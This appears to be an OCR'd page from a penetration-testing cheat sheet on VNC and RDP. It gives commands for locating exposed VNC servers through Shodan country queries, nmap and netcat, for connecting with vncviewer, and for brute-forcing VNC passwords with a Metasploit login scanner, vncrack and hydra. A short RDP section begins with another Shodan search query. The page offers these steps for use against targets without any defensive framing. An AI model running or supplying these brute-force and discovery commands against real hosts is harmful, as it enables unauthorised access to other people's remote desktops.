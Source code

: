 
Find VNC Server:


Shodan: 

```text
vnc country: [two letter country code]
```

or

```text
nmap -p 5900 [target IP address]
```

or

```text
nc [target IP address] 5900
```


To Connect:

```text
vncviewer -autopass [target IP address]:[display number]
```

to Crack:


```text
use auxiliary/scanner/vnc/vnc_login
set rhosts [target IP address]
set user_file [path to username file]
set pass_file [path to password file]
run
```

or

```text
vncrack -P /path/to/password/file.txt -u username -H <IP address> -v <VNC port>
```

or

```text
hydra -L usernames.txt -P passwords.txt -s 5900 -f -vV <target_ip> vnc
```


## RDP


To Find: 

Shodan: 

```text
rdp country: [two letter country code]
```
